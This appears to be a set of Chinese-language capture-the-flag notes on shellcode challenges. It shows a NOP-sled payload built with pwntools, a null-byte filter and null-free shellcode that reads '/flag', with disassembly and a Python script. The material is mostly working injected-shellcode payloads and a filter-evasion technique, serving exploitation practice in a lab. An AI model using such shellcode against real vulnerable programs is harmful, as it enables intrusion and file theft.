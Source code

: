 # level 2 nop滑栈
```shell
payload = b"\x90" * 0x800 + asm(shellcraft.readfile("/flag", 1))
```
# level 3 过滤空字节 NULL ('\x00')
```c
for (int i = 0; i < shellcode_size; i++)
    if (!((uint8_t*)shellcode)[i])
    {
        printf("Failed filter at byte %d!\n", i);
        exit(1);
    }
```
```bash
sh = asm(shellcraft.readfile("/flag", 1)) # 或者 shellcraft.cat('/flag')

```
```
0:   6a 01                   push   0x1
   2:   41 58                   pop    r8
   4:   48 b8 01 01 01 01 01 01 01 01   movabs rax, 0x101010101010101
   e:   50                      push   rax
   f:   48 b8 2e 67 6d 60 66 01 01 01   movabs rax, 0x1010166606d672e
  19:   48 31 04 24             xor    QWORD PTR [rsp], rax
  1d:   6a 02                   push   0x2
  1f:   58                      pop    rax
  20:   48 89 e7                mov    rdi, rsp
  23:   31 f6                   xor    esi, esi
  25:   0f 05                   syscall 
  27:   48 89 c3                mov    rbx, rax
  2a:   48 89 c7                mov    rdi, rax
  2d:   6a 05                   push   0x5
  2f:   58                      pop    rax             #fstat系统调用
  
# int fstat(int filedes, struct stat *buf);   通过文件描述符，获取文件对应的属性。

  30:   48 89 e6                mov    rsi, rsp
  33:   0f 05                   syscall 
  35:   48 83 c4 30             add    rsp, 0x30
  39:   48 8b 14 24             mov    rdx, QWORD PTR [rsp]
  3d:   49 89 d2                mov    r10, rdx
  40:   6a 28                   push   0x28
  42:   58                      pop    rax
  43:   4c 89 c7                mov    rdi, r8
  46:   48 89 de                mov    rsi, rbx
  49:   99                      cdq    
  4a:   0f 05                   syscall
```
```python
# 使用 pushstr 压入 "/flag" 字符串而不包含 NULL 字节
shellcode = shellcraft.pushstr('/flag')
# 打开文件
shellcode += shellcraft.open('rsp', 0, 0)  # 'rsp' 指向刚推送的字符串
# 读取文件内容
shellcode += shellcraft.read('rax', 'rsp', 1024)  # 假设我们读取最多1024字节
# 将文件内容写到标准输出
shellcode += shellcraft.write(1, 'rsp', 'rax')

shellcode += shellcraft.exit(0)

# 编译 shellcode
sh = asm(shellcode)
```